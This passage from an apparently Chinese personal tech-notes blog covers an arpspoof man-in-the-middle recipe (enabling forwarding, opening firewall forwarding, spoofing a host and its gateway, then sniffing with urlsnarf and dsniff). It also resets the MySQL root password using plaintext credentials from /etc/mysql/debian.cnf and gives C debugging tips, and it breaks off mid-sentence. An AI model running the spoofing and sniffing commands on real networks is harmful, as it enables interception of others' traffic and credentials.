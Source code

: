 另外，对于大型网络拓扑来说，还可以补上`IDS`和`IPS`以及其他硬件防火墙。对于具体的文件系统权限还有`ACL`等。

### arpspoof 使用

为防止目标机器断网，首先开启本机流量转发：

```
echo 1 /proc/sys/net/ipv4/ip_forward
```

之后把防火墙转发限制改掉：

```
iptables -F FORWARD
iptables -A FORWARD -j ACCEPT
```

之后就可以开始了，假设要欺骗`192.168.1.100`和网关`192.168.1.1`：

```
arpspoof -i wlan0 -t 192.168.1.100 192.168.1.1
arpspoof -i wlan0 -t 192.168.1.1 192.168.1.100
```

之后就可以做各种嗅探：

```
urlsnarf -i wlan0
dsniff -i wlan0
...
```

### MySQL 无旧密码修改 root 密码

今天新安装了 MySQL，需要改一下 root 密码。机器是 Ubuntu 14.04。

在`/etc/mysql/debian.cnf`中有`debian-sys-maint`用户的密码明文，使用该用户登录 MySQL，然后：

```
mysql> use mysql
mysql> update user set password = password("new_password") where user = "root";
mysql> flush privileges;
```

### 打印调试与条件编译

总结一条经验：编写较大程序时往往需要在关键点打印语句进行调试。完成了以后往往又要把这些调试语句删除。之后如果升级程序则又需要加上。一个想法是在每次需要添加打印语句时添加如下代码：

{% highlight c %}
#ifdef MY_OWN_DEBUG
printf("Variable: %d\n", Variable);
#endif
{% endhighlight %}

然后每次只需要在开头通过定义`#define MY_OWN_DEBUG`来控制是否进行调试。

### localtime()

今日遇到一个坑。很好，改变了我的一个编程习惯。  
在 C 语言编程中，我们往往通过`localtime(time_t *)`来获取格式化的时间。以往我都是这样写的：
